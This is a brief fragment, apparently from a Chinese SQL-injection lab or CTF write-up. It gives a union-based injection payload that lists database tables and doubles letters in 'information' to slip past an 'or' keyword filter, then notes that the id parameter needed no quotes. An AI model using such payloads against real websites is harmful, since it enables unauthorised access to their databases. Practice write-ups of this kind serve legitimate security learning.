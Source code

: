 ```
?id=-1 union select 1,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()),3
```

 

id根本就没有被''号包含，是我固化思维了，



绕and or 绕了半天，原来是不用加引号。。。。
